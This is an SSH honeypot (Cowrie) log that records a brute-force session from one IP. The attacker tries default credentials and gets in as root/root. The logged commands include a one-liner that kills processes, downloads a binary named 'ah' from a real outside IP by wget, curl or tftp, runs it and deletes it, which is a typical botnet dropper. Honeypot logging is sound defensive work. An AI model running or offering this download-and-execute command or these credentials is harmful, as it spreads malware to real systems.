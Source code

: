 ```verilog
2023-11-30T01:41:55.711661Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt: 2
2023-11-30T01:41:55.750345Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt [b'admin'/b'password'] failed
2023-11-30T01:41:58.998769Z [HoneyPotSSHTransport,43,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:41:58.999284Z [HoneyPotSSHTransport,43,204.76.203.13] Connection lost after 3 seconds
2023-11-30T01:41:59.075196Z [HoneyPotSSHTransport,44,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:02.031931Z [HoneyPotSSHTransport,44,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:03.676742Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt: 3
2023-11-30T01:42:03.714830Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt [b'ubnt'/b'ubnt'] failed
2023-11-30T01:42:04.792951Z [HoneyPotSSHTransport,44,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:04.793713Z [HoneyPotSSHTransport,44,204.76.203.13] Connection lost after 5 seconds
2023-11-30T01:42:04.868721Z [HoneyPotSSHTransport,45,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:04.944538Z [HoneyPotSSHTransport,45,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:05.336281Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt: 4
2023-11-30T01:42:05.373678Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt [b'admin'/b'123456'] failed
2023-11-30T01:42:06.452556Z [HoneyPotSSHTransport,45,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:06.453447Z [HoneyPotSSHTransport,45,204.76.203.13] Connection lost after 1 seconds
2023-11-30T01:42:06.528321Z [HoneyPotSSHTransport,46,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:06.603497Z [HoneyPotSSHTransport,46,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:06.955516Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt: 5
2023-11-30T01:42:06.993253Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt [b'root'/b'root'] succeeded
2023-11-30T01:42:06.994875Z [HoneyPotSSHTransport,46,204.76.203.13] Initialized emulated server as architecture: linux-x64-lsb
2023-11-30T01:42:07.264680Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: enable
2023-11-30T01:42:07.265628Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: enable 
2023-11-30T01:42:07.265865Z [HoneyPotSSHTransport,46,204.76.203.13] Reading txtcmd from "share/cowrie/txtcmds/bin/enable"
2023-11-30T01:42:07.342616Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: system
2023-11-30T01:42:07.343443Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command system
2023-11-30T01:42:07.343543Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: system
2023-11-30T01:42:07.344757Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: shell
2023-11-30T01:42:07.345442Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command shell
2023-11-30T01:42:07.345546Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: shell
2023-11-30T01:42:07.346481Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: sh
2023-11-30T01:42:07.346943Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: sh 
2023-11-30T01:42:07.348235Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: linuxshell
2023-11-30T01:42:07.348894Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command linuxshell
2023-11-30T01:42:07.349000Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: linuxshell
2023-11-30T01:42:07.354857Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: cd /tmp/; echo "senpai" > rootsenpai; cat rootsenpai; rm -rf rootsenpai
2023-11-30T01:42:07.355450Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cd /tmp/
2023-11-30T01:42:07.355807Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo senpai > rootsenpai
2023-11-30T01:42:07.356814Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cat rootsenpai
2023-11-30T01:42:07.357419Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: rm -rf rootsenpai
2023-11-30T01:42:07.457483Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: for dir in /proc/[0-9]*; do grep -q "(deleted)" "$dir/maps" && echo "Killing process with PID: $(basename $dir)" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah
2023-11-30T01:42:07.458423Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
```